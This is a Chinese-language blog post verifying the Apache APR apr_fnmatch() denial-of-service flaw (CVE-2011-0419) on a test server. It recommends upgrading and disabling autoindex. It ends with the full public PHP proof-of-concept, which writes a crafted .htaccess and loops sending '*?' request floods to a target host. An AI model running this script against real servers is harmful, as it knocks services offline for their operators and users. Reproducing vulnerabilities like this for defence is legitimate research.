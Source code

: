 ```yaml
---
layout: post
title:  Apache 1.4/2.2.x - APR 'apr_fnmatch()' Denial of Service(CVE-2011-0419)漏洞研究
category: security
tags: [CVE-2011-0419]
keywords: CVE-2011-0419
description: CVE-2011-0419研究
---  
```


## Apache 1.4/2.2.x - APR 'apr_fnmatch()' Denial of Service(CVE-2011-0419)漏洞研究      
工作中扫描发现Apache 1.4/2.2.x - APR 'apr_fnmatch()' Denial of Service(CVE-2011-0419)漏洞，对于该漏洞，我们做出如下验证与研究：  

**1. 漏洞信息**  
![b1](/assets/themes/images/b1.png)  
Apache Portable Runtime (APR)库1.4.3之前版本，Apache HTTP Server2.2.18之前版本的apr_fnmatch.c中存在栈消耗漏洞。该漏洞是由于“fnmatch()”函数的实现没有正确限制它的递归调用，远程攻击者可以借助first参数中的*?序列针对mod_autoindex某块进行攻击，从而导致拒绝服务（CPU和内存消耗）。  
APR(Apache portable Run-time libraries，Apache可移植运行库)的目的如其名称一样，主要为上层的应用程序提供一个可以跨越多操作系统平台使用的底层支持接口库。  
也就是说Apache的APR库中的fnmatch()函数出了问题，可以造成DOS攻击。   
 
**2.漏洞研究与验证：**  
测试环境：Redhat6.5，Apache 2.2.17    
![b2](/assets/themes/images/b2.png)   
根据exploit-db的资料，实现该攻击需要支持autoindex模块，也就是支持列目录，并且该目录中需要有较长文件名的文件。  
首先开启列列目录功能，对httpd.conf文件做如下修改：  
![b3](/assets/themes/images/b3.png)  
其中Indexs就是开启列目录，然后我们创建一个文件，根据POC，这个文件名为“cx..............................(125个点)”，如下图：  
![b4](/assets/themes/images/b4.png)   
在攻击前，我们首先观察一下CPU的占用情况，正常。  
![b5](/assets/themes/images/b5.png)  
网上POC如下：  
![b6](/assets/themes/images/b6.png)  
对一些参数进行具体的修改，如ip、目录等。执行攻击脚本： 
 
    php -f run.php  

过一段时间，再次观察CPU使用情况：    
![b7](/assets/themes/images/b7.png)   
可见，新出现许多httpd进程，并且CPU已到达99.5%，此时服务器明显卡顿，再次访问相关页面，也无法打开：  
![b8](/assets/themes/images/b8.png)  
至此，DOS攻击成功。  


**3.总结：**    

Apache HTTP Server2.2.18之前版本的apr_fnmatch.c中存在栈消耗漏洞，在支持autoindex模块的前提下，可能造成DOS攻击。2.2.18版本是2011年的版本，版本较低，建议升级，同时autoindex模块会造成不必要的信息泄露，也应关闭。poc如下：  
  

    source: http://www.securityfocus.com/bid/47820/info

	Apache APR is prone to a vulnerability that may allow attackers to cause a denial-of-service condition.
	
	Apache APR versions prior to 1.4.4 are vulnerable. 
	
	<?php
	/*
	Apache 2.2.17 mod_autoindex local/remote Denial of Service
	author: Maksymilian Arciemowicz
	
	CVE: CVE-2011-0419
	CWE: CWE-399
	
	REMOTE
	Find some directory with supported mod_autoindex on the server. The directory should contain long filenames.
	
	http://[server]/[directory_with_mod_autoindex]/?P=*?*?*?[to 4k]
	
	LOCAL
	Tested on:
	127# httpd -v && uname -a 
	Server version: Apache/2.2.17 (Unix)
	Server built:   Dec 28 2010 13:21:44
	NetBSD localhost 5.1 NetBSD 5.1 (GENERIC) #0: Sun Nov  7 14:39:56 UTC 2010  builds@b6.netbsd.org:/home/builds/ab/netbsd-5-1-RELEASE/i386/201011061943Z-obj/home/builds/ab/netbsd-5-1-RELEASE/src/sys/arch/i386/compile/GENERIC i386
	
	Result:
	127# ls -la   
	total 8
	drwxrwxrwx  2 root  wheel   512 Feb  8 21:41 .
	drwxr-xr-x  7 www   wheel  1024 Jan 31 08:49 ..
	-rw-r--r--  1 www   wheel  1056 Feb  8 19:39 .htaccess
	-rw-r--r--  1 www   wheel     0 Feb  8 19:39 cx.............................................................................................................................
	-rw-r--r--  1 www   wheel  1240 Feb  8 19:42 run.php
	127# ps -aux -p 617 
	USER PID %CPU %MEM   VSZ  RSS TTY STAT STARTED      TIME COMMAND
	www  617 98.6  0.4 10028 4004 ?   R     7:38PM 121:43.17 /usr/pkg/sbin/httpd -k start 
	
	Time = 121:43 and counting
	
	where http://[$localhost]:[$localport]/[$localuri]
	*/
	$localhost="192.168.160.237";
	$localport=80;
	$localuri="/tf";
	
	
	if(!is_writable(".")) die("!writable");
	
	// Phase 1
	// Create some filename
	touch("cx".str_repeat(".",125));
	
	// Phase 2
	// Create .htaccess with 
	unlink("./.htaccess");
	$htaccess=fopen("./.htaccess", "a");
	fwrite($htaccess,"AddDescription \"CVE-2011-0419\" ".str_repeat('*.',512)."\n");
	fclose($htaccess);
	
	// Phase 3
	// Local connect (bypass firewall restriction)
	while(1){
		$fp = fsockopen($localhost, $localport, $errno, $errstr, 30);
		if (!$fp) echo "$errstr ($errno)<br />\n";
		else {
			$out = "GET ".$localuri."/?P=".str_repeat("*?",1500)."* HTTP/1.1\r\n";
			$out .= "Host: ".$localhost."\r\n";
			$out .= "Connection: Close\r\n\r\n";
			fwrite($fp, $out);
			fclose($fp);
		}
	}
	
	?>



 



